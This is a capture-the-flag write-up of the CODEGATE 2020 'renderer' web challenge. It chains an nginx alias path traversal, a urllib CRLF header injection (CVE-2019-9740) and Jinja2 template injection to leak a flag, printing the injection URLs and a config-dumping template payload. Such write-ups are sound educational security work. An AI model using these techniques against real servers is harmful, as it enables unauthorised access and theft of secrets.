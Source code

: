 ## Challenge: renderer

Challenge is available as a web service on http://110.10.147.169/renderer/. User
is able to send arbitrary URL using POST request. Server retrieves specified URL
and sends contents embedded into some HTML template back to user. Something like
a proxy.

Few files a provided too: [Dockerfile](./challenge/Dockerfile) and
[run.sh](./challenge/settings/run.sh).

### Basic properties

[Dockerfile](./challenge/Dockerfile) is pretty interesting:

```
FROM python:2.7.16

ENV FLAG CODEGATE2020{**DELETED**}

RUN apt-get update
RUN apt-get install -y nginx
RUN pip install flask uwsgi

ADD prob_src/src /home/src
ADD settings/nginx-flask.conf /tmp/nginx-flask.conf

ADD prob_src/static /home/static
RUN chmod 777 /home/static

...
```

Python version immediately attracts attention: Python 2.7 is deprecated, and
`2.7.16` is not even the latest stable version of 2.7 branch.

Second interesting thing: flag seems to be supplied in an environment variable.

Third: web service is using [Flask](https://www.palletsprojects.com/p/flask/)
framework and running under [nginx](https://nginx.org/) +
[uwsgi](https://github.com/unbit/uwsgi).

Paths `/home/src` and `/home/static` are important too, but not in obvious way
at this stage.

[run.sh](./challenge/settings/run.sh) just starts all required services with
right configuration. Nothing interesting.

### First vulnerability

One of my teammates quickly found the first vulnerability: it is possible to
retrieve service's source code using URLs like
`http://110.10.147.169/static../src/run.py`.

There is a known flaw in many nginx configurations: missing trailing slash in
nginx's "location" rule may allow reading files in parent directory. For
example:

```
location /static
{
    alias /home/static/;
}
```

nginx matches first characters - `/static` - and appends the rest to the "alias"
path. So `/staticblah/blah` becomes `/home/static/blah/blah`, and
`/static../blah` becomes `/home/static/../blah` (handled as `/home/blah` by OS).

Now we can download
[complete source code of the service](./service/prob_src/src) (note that it
contains `print`s added by me manually). Enough to even run the same service
locally for further investigation.

### Second vulnerability

[routes.py](./service/prob_src/src/app/routes.py) contains most of the code. It
reveals that service actually provides more than one function:

 * `/` - already known "proxy service";
 * `/whatismyip` - shows user's IP address;
 * `/admin` - writes some info into separate per-request log files;
 * `/admin/ticket` - allows reading of log files.

Certain conditions should be met to trigger different code paths on `/admin` and
`/admin/ticket`: client's IP address equal to `127.0.0.1` or `127.0.0.2`,
specific `User-Agent` string.

Getting `127.0.0.1` as a client's IP address is easy: just request
`http://127.0.0.1/something` from the "proxy service" itself. This is enough to
get `127.0.0.1` in both Flask's `request.remote_addr` and HTTP header
`X-Forwarded-For` added by nginx.

Forging `User-Agent` HTTP header and something other than `127.0.0.1` in
`X-Forwarded-For` is a bit more difficult.

Let's check how "proxy" retrieve content from user-supplied URLs:

```python
def proxy_read(url):
    #TODO : implement logging

    s = urlparse(url).scheme
    if s not in ["http", "https"]: #sjgdmfRk akfRk
        return ""

    return urllib2.urlopen(url).read()
``` 

There is a known bug in `urllib` in some python versions (<= 2.7.16
and <= 3.7.2):
[[CVE-2019-9740] Python urllib CRLF injection vulnerability](https://bugs.python.org/issue36276).

The idea is to supply specially crafted URL to the proxy service. Here is how
normal `urllib2.urlopen()` request looks like (Python 2.7.16):

```
>>> urllib2.urlopen('http://127.0.0.1/test')

# nc -l -p 80
GET /test HTTP/1.1
Accept-Encoding: identity
Host: 127.0.0.1
Connection: close
User-Agent: Python-urllib/2.7

```

With added `\r\n` into the host name field:

```
>>> urllib2.urlopen('http://127.0.0.1/first HTTP/1.1\r\nInjected-Header: xxx/test')

# nc -l -p 80
GET /first HTTP/1.1
Injected-Header: xxx/test HTTP/1.1
Accept-Encoding: identity
Host: 127.0.0.1
Connection: close
User-Agent: Python-urllib/2.7

```

Using this, we may even replace all headers:

```
>>> urllib2.urlopen('http://127.0.0.1/first HTTP/1.1\r\nNew-Header: xxx\r\nAnother-Header: yyy\r\n\r\ngarbage start here')

# nc -l -p 80
GET /first HTTP/1.1
New-Header: xxx
Another-Header: yyy

garbage start here HTTP/1.1
Accept-Encoding: identity
Host: 127.0.0.1
Connection: close
User-Agent: Python-urllib/2.7

```

As "proxy" accepts any `http://` or `https://` URL, this solves our problem
with `User-Agent` and `X-Forwarded-For` validation.

### Final (third) vulnerability

Now we need a way to read the flag from environment variable.

We are able to read service's log files using `/admin/ticket`. Here is the
relevant parts of code:

```python
def read_log(ticket):
    if not (ticket and ticket.isalnum()):
        return False

    if path.exists("/home/tickets/%s" % ticket):
        with open("/home/tickets/%s" % ticket, "r") as f:
            return f.read()
    else:
        return False


@front.route("/admin/ticket", methods=["GET"])
def admin_ticket():
    ...
    if request.args.get("ticket"):
        log = read_log(request.args.get("ticket"))
        if not log:
            abort(403)
        return render_template_string(log)
```

We cannot send arbitrary string as a ticket ID because of `ticket.isalnum()`
check. But service calls Flask's `render_template_string()` directly on string
read from log file. This means that service interprets log files as a
[Jinja2](https://www.palletsprojects.com/p/jinja/) templates.

But first we need a way to inject Jinja2 code to get it executed on the server
side. Fortunately, there is a code path allowing exactly this:

```python
def write_log(rip):
    tid = hashlib.sha1(str(time.time()) + rip).hexdigest()
    with open("/home/tickets/%s" % tid, "w") as f:
        log_str = "Admin page accessed from %s" % rip
        f.write(log_str)
    return tid


def get_real_ip():
    return request.headers.get("X-Forwarded-For") or get_ip()


@front.route("/admin", methods=["GET"])
def admin_access():
    ip = get_ip()
    rip = get_real_ip()
    ...
    if ip != rip: #if use proxy
        ticket = write_log(rip)
        return render_template("admin_remote.html", ticket = ticket)
    ...
```

So it is possible to inject Jinja2 code in `X-Forwarded-For` and then execute it
using `/admin/ticket?ticket=<ID>`.

What Jinja2 code do we need to expose flag? In fact, it is possible to execute
arbitrary Python code from Jinja2 templates, but that is overkill for current
challenge. Here is one line from
[\_\_init\_\_.py](./service/prob_src/src/app/__init__.py):

```python
app.config["FLAG"] = os.getenv("FLAG", "CODEGATE2020{}")
```

It loads flag from the environment variable into Flask's `app.config`. Just
google "jinja2 code injection", the first link:
[Server Side Template Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection).
"Dump all config variables" snippet is the right answer:

```
{% for key, value in config.iteritems() %}
    <dt>{{ key|e }}</dt>
    <dd>{{ value|e }}</dd>
{% endfor %}
```

### The flag

[sol.py](./sol.py) combines all three vulnerabilities in one automated exploit.

Flag: `CODEGATE2020{CrLfMakesLocalGreatAgain}`.
